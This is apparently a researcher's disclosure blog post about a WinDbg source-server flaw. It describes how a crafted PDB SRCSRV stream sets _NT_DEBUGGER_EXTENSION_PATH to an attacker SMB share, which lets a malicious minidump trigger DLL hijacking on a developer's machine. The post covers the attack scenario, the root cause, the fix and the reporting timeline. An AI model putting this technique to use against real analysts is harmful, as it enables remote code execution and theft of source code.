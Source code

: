 ```yaml
---
title: Exploiting WinDbg's Source Indexing
author: alexander
date: 2023-08-23 00:34:00 +0800
categories: [Vulnerability, MS]
tags: [srcsrv, rce]
comments_id: 1
image:
  path: /assets/img/1/ppc.png
  alt: SRCSRV Fail

---
```


This attack surface was actually noticed by me back in early days of windows development, somewhat about year 2016. While doing enterprise development, you inevitably need to respond if your product crashes at the end user side, and typical way for windows development is automatic collection of the crash dumps from end user to your company development infrastructure. The implementation of this process may vary, but usually it includes following steps:
1. Generation of crash dump at user side
2. Sending the crash dump to some dump collection server
3. Automatic triage
4. Notify developers about new bug
5. Developer doing manual triage

This process is already very complex and prone to vulnerabilities, but today we will focus on stage #5.

### Risk
Attacks on actual developers are highly dangerous, since this kind of staff usually has local admin rights, as well as access to large portion of source code, code signing certificates, and documentation, including write access to a part of product code. The impact may vary from information leaks to actual trojanization of company products, which will cost enormous sum for a company.


### Vulnerability summary
The vulnerability that we will describe today allows remote attackers to execute arbitrary code on affected installations of Microsoft WinDbg with Source Server client enabled. Access from target host to attacker-supplied SMB-share is required to exploit this vulnerability remotely. The specific flaw exists within the implementation of the SRCSRV Stream processing of pdb file by srcsrv.dll. The issue results from the improper usage of SRCSRVENV variable in SRCSRV stream of pdb file, which allows attacker to set arbitrary environment variable in current WinDbg instance. This behaviour may be abused to trigger DLL hijacking during DbgEngine reinitialization, and result in arbitrary DLL execution, including DLLs accessible by UNC paths, e.g. from an SMB server.

#### Description

**Products affected**

- WinDbg 10.0.19041.685
- Microsoft Source Server (srcsrv.dll) 10.0.19041.685

**Classification**

- Security feature bypass
- Local privilege elevation
- Remote code execution
- Code injection

### Details

WinDbg has feature called Source Indexing which allows developers to embed instructions to WinDbg on how to download source code for specific build of a PE file. These instructions are presented within a form of "ini" file, which can be embedded to a "srcsrv" stream of a PDB file, which is generated by MSVC compiler alongside to executable file, to provide additional debug information for the application. ![Srcsrv stream content example](/assets/img/1/clip_image001.png)

This ini files contain the following main keys:

- SRCSRVCMD - specifies command line template which actually downloads source code, e.g. "tf.exe get …"
- SRCSRVENV - specifies environment variables for SRCSRVCMD in form of "KEY=VALUE"

To mitigate execution of malicious command lines, default configuration of SrcSrv requires user consent before execution, which allows user to decide if the command is safe or not. User also has option (and desire) to turn off those consents permanently:
![Source server consent dialog](/assets/img/1/clip_image003.png)

While having this legacy security measure in place, Srcsrv.dll uses SRCSRVENV value to set environment variable in current WinDbg instance **before** the consent dialog is shown, which renders this security measure ineffective in this scenario.

![Vulnerable code](/assets/img/1/clip_image002.png)


### Remote exploitation scenario
Having all this information, let's plan the remote attack scenario.
Imagine that company X uses dump servers to collect crashdumps from customers for postmortem debugging of their software. Malicious actors craft a PDB file which triggers this vulnerability: they embed a SRCSRV stream to PDB with SRCSRVENV set to
`_NT_DEBUGGER_EXTENSION_PATH=\\192.168.1.2\box\1337\`

![Example setting](/assets/img/1/clip_image004.png)

This specific environment variable is used by Windbg engine as a search path for extension DLLs, which will be explained later.

They also craft a minidump file with a PE file in memory containing forged CV_INFO_PDB70 structure, and a PDB file which triggers this vulnerability. This structure is a standard way to point WinDbg to a location of a PDB file for a PE.

![Default value of PDB path in CV_INFO_PDB70 structure](/assets/img/1/clip_image005.png)

 In this case, attacker sets PdbFileName to a UNC path to SMB share, which contains a .pdb file with a crafted SRCSRV stream. Employee of Company X receives minidump file for crashdump analysis, and opens it in WinDbg, which loads a .pdb file from the SMB share. WinDbg identifies SRCSRV stream from PDB, and passes SRCSRV stream contents to srcsrv.dll SrcSrvExecTokenA function. This function reads SRCSRVENV variable and sets environment variable \_NT_DEBUGGER_EXTENSION_PATH. At this point the vulnerability is triggered. Later it displays consent window, but no matter of user consent, the WinDbg instance has spoiled process environment. After dealing with this crafted minidump, employee of Company X opens any minidump or executable binary (in the current WinDbg instance), and DbgEngine will load extension DLLs from the attacker-supplied SMB share.

![WinDbg loads attacker-supplied DLL](/assets/img/1/clip_image006.png)

Current attack scenario is based on \_NT_DEBUGGER_EXTENSION_PATH variable modification, which is basically a path to WinDbg debugger extensions like ext.dll/ntsdexts.dll/etc. They are being loaded at DbgEngine initialization, so the DLL hijacking will occur if user loads any other dump in current WinDbg instance.

### Root cause and remediation

SRCSRVENV is meant to provide environment variables to SRCSRVCMD command execution, so it must be specified e.g. on lpEnvironment argument of CreateProcess call, not for context of calling process using SetEnvironmentVariable.

**Fix available**

Ensure to use SDK version 10.0.22621.0 and higher.

### Supporting materials & references

Source indexing description: https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/source-indexing

**Communication history**

- 22 march 2021 – Report submitted to Microsoft
- 22 march 2021 – Report acknowledged by Microsoft
- 2 april 2021 – Problem confirmed by Microsoft
- 7 april 2021 – Bounty was awarded
- 17 july 2021 – Fix in testing
- 27 july 2021 – Plan to release fix in October SDK
- 9 october 2021 – Temporary CVE was assigned CVE-2021-X41358
- 13 october 2021 – MS decided to refuse CVE-2021-41358 registration
- 23 august 2023 – This article is published

